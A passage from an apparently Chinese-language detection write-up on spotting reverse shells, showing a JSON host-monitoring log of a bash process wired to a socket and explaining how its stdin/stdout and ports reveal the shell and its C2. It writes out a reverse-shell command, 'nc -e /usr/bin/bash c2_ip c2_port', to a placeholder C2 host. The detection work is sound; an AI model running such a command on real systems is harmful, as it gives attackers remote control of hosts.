 ```json
    "dport":"233",
    "sip":"127.0.0.1",
    "sport":"60620",
    "sa_family":"2",
    "pid_tree":"1(systemd)->1565(sshd)->2093(sshd)->2096(bash)->2147(fish)->2549(bash)->6364(bash)",
    "tty_name":"pts0",
    "socket_process_pid":"6364",
    "socket_process_exe":"/usr/bin/bash",
    "SSH_CONNECTION":"192.168.165.1 50422 192.168.165.152 22",
    "LD_PRELOAD":"",
    "user":"root",
    "time":"1580104472249",
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"f926bedd777fa0f4f71dd2d28155862a",
    "socket_process_exe_md5":"f926bedd777fa0f4f71dd2d28155862a"
}
```

大家注意看exe和stdin和stdout，根据这个特征即可以发现该类型的反弹shell，并且还可以通过**dip/dport/sip/sport**来定位到C2的位置。

其他类似的如大家耳熟能详的python/perl这种就不多赘述演示了，大多数都是将bash的stdin/out指向socket连接，本质没有区别。



#### 4.最简单的反弹shell(2)

除了`bash -i`这种之外，还有另外一种很常用的方式是使用`nc -e`，使用方式如下：

```bash
nc -e /usr/bin/bash c2_ip c2_port
```

我们按照之前的思路来查看一下bash进程的stdin和stdout是什么样子，是不是也是有明显的输入输出指向网络连接的情况：

![5](5.png)

![6](6.png)
